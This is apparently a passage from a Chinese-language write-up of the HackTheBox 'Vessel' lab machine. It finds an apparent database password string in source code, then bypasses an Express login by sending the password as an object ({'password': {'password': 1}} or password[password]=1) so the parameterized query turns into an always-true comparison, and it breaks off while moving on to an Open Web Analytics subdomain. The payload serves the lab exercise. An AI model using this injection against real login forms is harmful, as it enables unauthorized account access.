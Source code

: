 查看对应的db代码，看无password什么的

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%206.png)

（这里有 `daqvACHKvRn84VdVp`）

## Bypass Login

> Query escape functions like above are meant to fill replace the `?`
 with the strings and not allow any code there such as open/close quotes or equals signs. However, Express mis-handles how different object types are passed into these function.
> 

### express mis-handles

这里看到代码虽然用了 `?` 来防止sql注入，

```python
connection.query('SELECT * FROM accounts WHERE username = ? AND password = ?', [username, password], function(error, results, fields) {
```

但是expres有一些特性会破坏原本的sql语句，例如

```python
{
    "username": "admin",
    "password": {
        "password": 1,
    }
}
```

就会变成

```python
SELECT * FROM accounts WHERE username = 'admin' AND password = `password` = 1;
```

按照这个思路发起请求（这里如果不是 `application/json` 而是 `application/x-www-form-urlencoded` 其实也可以，用password[password]=1 就可以

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%207.png)

最后进入管理员面板（好耶）

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%208.png)

点击如图的Analytics功能发现会进入 [`http://openwebanalytics.vessel.htb/`](http://openwebanalytics.vessel.htb/) 里，添加到 `/ect/hosts` 里

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%209.png)

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2010.png)

## Open Web Analytics
